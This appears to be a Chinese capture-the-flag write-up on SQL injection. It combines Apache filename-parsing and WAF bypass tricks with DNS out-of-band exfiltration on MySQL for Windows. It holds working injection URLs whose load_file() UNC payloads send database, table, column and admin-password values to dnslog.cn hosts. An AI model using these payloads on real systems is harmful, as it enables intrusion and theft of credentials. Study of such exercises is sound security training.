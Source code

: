 ```yaml
---
date: "2020-12-17T00:00:00Z"
description: SQL注入 - DNSLOG注入 与 WAF绕过
keywords: SQL注入
tags:
- SQL注入
title: SQL注入 - DNSLOG注入 与 WAF绕过
---
```


# SQL注入 - DNSLOG注入 与 WAF绕过

> https://hack.zkaq.cn/battle/target?id=9b8ee696eb01591e

## 0x00 

1. 为什么经常说 **完全和运维工作要左移（参考 CI/CD 流程）** ？ 不管说什么， 商业的本质是赚钱， 阻挡赚钱的一切都是异端。
2. 在任何时候 **信息收集** 都很重要。 分析的对象是 **信息** ， 被利用对象的本质是 **疏漏** 。 **`信息分析可以找出这些疏漏`**

**文件解析漏洞**: 任意文件被指定解释器调用。
    1. 指定执行: `php xxx.php`
    2. 默认执行规则: apache`.htaccess`

**WAF绕过**: WAF 的作用是保护业务，而非阻断业务。 因此在设置 WAF 规则的时候， 一定会有各种业务因素导致 WAF 规则盲区。 使用各种方式， 绕过既定 WAF 规则。
    1. 特殊字段出现常用注入字符。
    2. WAF 影响性能
    3. 业务烂但是必须上线。


**mysql on windows** 由于 windows 环境触发的特定利用方式。
    1. UNC / dnslog

## mysql 注入 - dns 注入

### 常规测试

```
http://59.63.200.79:8014/index3.php?id=1%20and%201=2
```

遇到了 WAF。 

![](https://nc0.cdn.zkaq.cn/md/8461/ea837aec83ec521ce8d7f10fd9160328_94867.png)


### 环境分析

打开 **开发者工具** ， 刷新页面，查看服务器返回 `response headers` 头信息

可以看到， windows ， apache


![](https://nc0.cdn.zkaq.cn/md/8461/216cb20d8e79f794226e061add4aa42f_76985.png)



### WAF 绕过 与 apache 文件解析漏洞

**apache 文件解析漏洞**

1. apache 有一个功能特性，将文件名后缀左右向左解析。 
	1. 如果最右侧的后缀不识别，则向左移位。 例如， `index.php.qwe` 。 先识别 `.qwe` 不认识； 再识别 `.php` ， OK。
	2. 如果查找最右侧的文件不存在， 则向左移位。 例如 `1.example.com/index.php/.txt` 。 `.txt` 文件不存在;  再找 `index.php` , ok

**WAF 绕过**

1. 规则绕过， 分析规则， 使用加盐或编码方式等绕过。
	1. 编码： url， hex， base64
	2. 注释：例如mysql `/* xxx */`
	3. 长字符： 11111111111111111=11111111111111111
	4. ...
2. 白名单文件绕过。 即使用平常大家都认为人畜无害的文件类型绕过。
	1. txt

**waf+apache 组合拳**

```
http://59.63.200.79:8014/index3.php/.txt?id=1 and 1=2
```

![](https://nc0.cdn.zkaq.cn/md/8461/f2ea16d795f9912a1e4d53003a7e158e_56825.png)


**mysql on windows**

由于windows 的 UNC 路径特性， 似的 myql on windows 可以使用  dnslog 注入。

### dnslog 测试

```
http://59.63.200.79:8014/index3.php/.txt?id=1%20and%20load_file(%27//1.dl9ewg.dnslog.cn/1.sql%27)
```

![](https://nc0.cdn.zkaq.cn/md/8461/4d189260c08844589dcecae3d55c30b6_14255.png)


通过dnslog 解析记录， 发现， dnslog oob 带外是可以用的。


### flag 查找

```sql

-- sql
-- 1. 查看当前库名
database()


-- 2. 查看当前库的所有表明
select group_concat(table_name) from information_schema.tables

-- 3. 查看指定库、表数据量
select count(*) from <table_name>

-- 4. 查询数据信息


load_file( concat('//', $SQL, '.0cu3h3.dnslog.cn/1.txt') )

```

```bash
## 库名是什么
http://59.63.200.79:8014/index3.php/.txt?id=1 and load_file( concat('//', database(), '.tt.wkhnuu.dnslog.cn/1.txt') )
# result:  mangzhu 

## 多少张表
http://59.63.200.79:8014/index3.php/.txt?id=1 and load_file( concat('//',(select count(table_name) from information_schema.tables WHERE table_schema=database() ), '.tcount.wkhnuu.dnslog.cn/1.txt') )
# result: 2

## 表明是什么
http://59.63.200.79:8014/index3.php/.txt?id=1 and load_file( concat('//',(select table_name from information_schema.tables WHERE table_schema=database() limit 1,1), '.tname.wkhnuu.dnslog.cn/1.txt') )

# result: admin,news

## 查询列
http://59.63.200.79:8014/index3.php/.txt?id=1 and load_file( concat('//',(select hex(group_concat(column_name)) from information_schema.columns WHERE table_schema=database() and table_name='admin' ), '.cls.wkhnuu.dnslog.cn/1.txt') )

# result: 49642c757365726e616d652c70617373776f7264 
## Id,username,password

## 查询字段
http://59.63.200.79:8014/index3.php/.txt?id=1 and load_file( concat('//',( select hex(group_concat(password)) from admin ), '.val.wkhnuu.dnslog.cn/1.txt') )

# result: 31666C616731676F6F6431
## 1flag1good1
```

![](https://nc0.cdn.zkaq.cn/md/8461/7ca4123b1be6e9bb8be053bec6008ce2_96761.png)

**flag: 1flag1good1**

# 0xGG 参考文章

+ [浅谈解析漏洞的利用与防范](https://www.anquanke.com/post/id/219107)
+ [文件解析漏洞总结-Apache](https://blog.csdn.net/wn314/article/details/77074477)
+ [WAF机制及绕过方法总结：注入篇](https://www.freebuf.com/articles/web/229982.html)

